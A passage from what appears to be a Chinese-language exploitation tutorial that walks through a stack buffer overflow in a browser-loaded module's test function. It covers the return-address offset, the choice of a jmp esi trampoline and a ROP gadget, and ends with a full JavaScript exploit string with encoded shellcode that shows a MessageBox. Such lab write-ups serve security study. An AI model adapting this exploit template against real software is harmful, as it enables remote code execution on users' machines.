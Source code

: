 通过调试，我们可以发现在缓冲区`108`字节后的四个字节刚好覆盖函数返回地址，所以最直接的思路是在这里放上一个跳板`jmp esp`，然而在Flash模块中我们并未找到这样的跳板。所以只好在OD中单步到test函数返回前，看看都有哪些寄存器指向栈：

![Bildschirmfoto 2018-10-15 um 10.29.38 AM.png]({{ site.url }}/images/0day/EAB6A391645AE09B89926AF045EA6A48.png)

可以发现是`EDX/ESI/ESP`，由于edx总指向溢出字符串的末尾（即shellcode末尾）那个字节，所以无法使用。esi与esp指向相同。我们尝试在Flash模块中寻找`jmp esi`，找到两处：

![Bildschirmfoto 2018-10-15 um 10.32.55 AM.png]({{ site.url }}/images/0day/E48DCEC200B7BB77D99DBE12FC89F4BF.png)

![Bildschirmfoto 2018-10-15 um 10.33.14 AM.png]({{ site.url }}/images/0day/B1EB2B4D12CAACA71F7D7A8D01087099.png)

注意，由于esi与esp指向相同，所以在后面这个跳板的地址本身会被当作指令执行。然而第一处跳板的最低字节`C7`是未知指令（甚至导致了我的反汇编器崩溃），将影响逻辑流，而第二处跳板地址反汇编如下：

![Bildschirmfoto 2018-10-15 um 10.34.59 AM.png]({{ site.url }}/images/0day/FBDC505E97FDDFF7AE98D5BE97135287.png)

基本不影响。但是它会对eax进行操作。而参照之前的调试图片可以发现，eax是`00000070`，这个地址很明显不可以被写入。所以我们要先将eax指向可写地方。我们可以采用类似于`mov eax, edx; ret`这样的gadget。经过作者的寻找，选择下图的gadget：

![Bildschirmfoto 2018-10-15 um 10.38.36 AM.png]({{ site.url }}/images/0day/A438661B3BE5CF192FEB0EDBA38A6DBB.png)

它不影响逻辑流：

![Bildschirmfoto 2018-10-15 um 11.01.03 AM.png]({{ site.url }}/images/0day/0DE95FC1318BEF8BF0B0A5747424C14F.png)

因此，最终shellcode如下：

```html
<script>  
    var s = "\u9090";
    while (s.length < 54) {
        s += "\u9090";
    }
    // mov eax, edx retn 8
    s += "\uD286\u1014"
    // nop
    s += "\u9090\u9090"
    // jmp esi
    s += "\uE78A\u1012"
    // nop
    s += "\u9090\u9090";
    // messagebox
    s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91";
    s += "\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332";
    s += "\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c";
    s += "\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505";
    s += "\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b";
    s += "\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06";
    s += "\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c";
    s += "\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd";
    s += "\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33";
    s += "\u6853\u6a2d\u626f\u6768\u6f6f\u8b64\u53c4\u5050";
    s += "\uff53\ufc57\uff53\uf857";
    test.test(s);  
</script>  
```
